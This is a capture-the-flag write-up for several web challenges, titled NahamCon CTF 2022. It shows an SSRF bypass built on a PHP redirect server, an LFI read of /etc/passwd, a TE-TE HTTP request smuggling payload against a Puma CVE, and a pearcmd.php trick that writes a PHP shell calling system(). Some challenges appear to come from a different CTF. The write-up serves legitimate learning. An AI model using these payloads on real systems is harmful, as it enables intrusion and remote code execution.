





# NahamCon CTF 2022 - Web
------------------------

## Super Secure Requests Forwarder
#### about :
- Type: web 
- Level: easy
- Points : 100

<center></center>

we look at the source code , the main app is like :
```python
@app.route('/', methods=['GET', 'POST'])
def index():

    if request.method == 'POST':
        url = request.form['url']

        # Prevent SSRF
        try:
            advocate.get(url)

        except:
            return render_template('index.html', error=f"The URL you entered is dangerous and not allowed.")

        r = requests.get(url)
        return render_template('index.html', result=r.text)

    return render_template('index.html')
```
what catched my eye is the problem of only checking one time , with **advocat** , the normal behavior is to use the get request result , not sending another unsafe request , so i created a server , when the second request is launched we forward to /flag : 

```php
<?php $var = $_SERVER['HTTP_X_FORWARDED_FOR'] ?>
<?php echo "IP : " . $var . "\n" ?>
<?php echo "subnet : " . substr($var ,0 , 2) . "\n" ?>
<?php
$file = '/tmp/file1.txt';
$current = file_get_contents($file);
if (substr($var ,0 , 2) === '34') {
        echo "Found you \n";
        $current .= "hello";
        system('echo hello >> /tmp/tmp.txt');
        file_put_contents($file, $current);

echo "current : " . $current .  "\n" ;
if ($current === "hellohello") {
        echo "You are the real \n";
        echo "Done";
        header("Location: http://127.0.0.1/flag", true, 301);
}
}
?>
```

## Sourceless Guessy Web (Baby Flag)
#### about :
- Type: web 
- Level: easy
- Points : 100

<center></center>

First thing I noticed is the url redirceted me to : 
**http://sourcelessguessyweb.chall.seetf.sg:1337/?page=whysoserious** , then my first check was LFI (as mentioned in **for beginners** section), i tried to get /etc/passwd , we found the flag : 

<center></center>

## Flag Portal (Flag 1)
#### about :
- Type: Web 
- Level: meduim
- Points : 100

<center></center>

when  i looked at the source code i found in the Gem installation file : 

```yaml
GEM
  remote: https://rubygems.org/
  specs:
    nio4r (2.5.5)
    puma (5.6.2)
      nio4r (~> 2.0)
    rack (2.2.3)
```

This version has a relatively new CVE [here](https://security.snyk.io/vuln/SNYK-RUBY-PUMA-2437090), it is an HTTP request smuggling of type **TE-TE**, the frontend server _puma_ doesn't render xchuncked, but _ATS_ renders it, the final payload is : 

```http
GET /home HTTP/1.1
Host: revenge
Content-Length: 4
Transfer-Encoding: xchuncked

0
GET /admin?backend=https://your_server HTTP/1.1
Content-Length: 15

x=1
0
[blank]
[blank]
```

## Sourceless Guessy Web (RCE Flag)
#### about :
- Type: Web 
- Level: meduim
- Points : 481

<center></center>

The wbesite rediect me to **phpinfo.php#:~:text=register_argc_argv** , this shows that we an use this [Technique](https://blog.csdn.net/rfrder/article/details/121042290) to write into a file : 

The payload is then : 

`page=../../../../usr/local/lib/php/pearcmd.php& config-create /tmp/<?=system('/readflag')?>/* /tmp/cmd.php `

And then we can reach to the created file using the simple LFI `page=../../../../tmp/cmd.php`

